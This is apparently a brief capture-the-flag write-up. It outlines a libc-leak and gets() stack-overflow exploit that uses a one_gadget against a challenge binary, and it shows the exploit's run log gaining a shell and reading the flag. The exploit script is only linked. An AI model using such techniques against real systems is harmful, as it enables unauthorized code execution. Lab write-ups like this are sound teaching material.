 * 64-bit elf with PIE protection
* the binary open and give us a leak of printf@libc
* we have a stack buffer overflow because of gets()
* calculate the libc base and evaluate the remote libc using https://libc.blukat.me/
![img ](./libc_enum.png)
* use the buf-overflow to evrwrite RIP with one_gadgets, also we fiull the stack with `\x00` to be sure the pne_gadget work ;)
* exploit here <a href=x.py>x.py</a>
```
  $ python x.py
  [+] Opening connection to jh2i.com on port 50005: Done
  [+] leak printf: 00007f729336d800
  [+] 0x7f7293318000
  [*] Switching to interactive mode
  )?

  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x165\x93r\x7f
  $ ls -al
  total 44
  dr-xr-xr-x 1 pwn  pwn  4096 Mar 31 14:34 .
  drwxr-xr-x 1 root root 4096 Nov  8 00:37 ..
  -rw-r--r-- 1 pwn  pwn   220 Aug 31  2015 .bash_logout
  -rw-r--r-- 1 pwn  pwn  3771 Aug 31  2015 .bashrc
  -rw-r--r-- 1 pwn  pwn   655 Jul 12  2019 .profile
  -rw-r--r-- 1 root root  133 Nov  8 00:24 Makefile
  -rwxr-xr-x 1 root pwn  8888 Mar 31 14:34 challenge
  -rw-r--r-- 1 root root  330 Nov  8 00:24 challenge.c
  -rwxr-xr-x 1 root pwn    16 Mar 31 14:34 flag.txt
  $ cat flag.txt
  LLS{r0p_1s_fun}
```
